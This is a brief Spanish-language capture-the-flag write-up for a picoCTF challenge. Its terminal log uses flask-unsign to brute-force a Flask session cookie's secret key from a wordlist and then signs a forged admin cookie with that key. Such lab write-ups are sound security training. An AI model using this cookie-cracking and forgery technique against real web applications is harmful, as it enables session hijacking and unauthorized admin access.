 ## Objetivo
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/26760321c25c9659050a37a707247690/server.py) [http://mercury.picoctf.net:52134/](http://mercury.picoctf.net:52134/)

Hint:
- How secure is a flask cookie?
## Solucion

```bash
┌──(wil㉿DESKTOP-FKOIV4I)-[/tmp/tmp.RrOdV4pNtk]
└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Zvy8Zw.UWhppfVmJnyl0ZO9BYXvJvYIrC8" --wordlist cookie
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 29 attempts
'peanut butter'

┌──(wil㉿DESKTOP-FKOIV4I)-[/tmp/tmp.RrOdV4pNtk]
└─$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZvzB8A.LMd53VHdhiU7c7c5ST-ncV7DTEA

┌──(wil㉿DESKTOP-FKOIV4I)-[/tmp/tmp.RrOdV4pNtk]
└─$
```

## Notas adicionales
## Referencias
- [Flask - Wikipedia, la enciclopedia libre](https://es.wikipedia.org/wiki/Flask)
- [Flask Session Cookies < BorderGate](https://www.bordergate.co.uk/flask-session-cookies/)
- [pypa/pipx: Install and Run Python Applications in Isolated Environments (github.com)](https://github.com/pypa/pipx)
- 
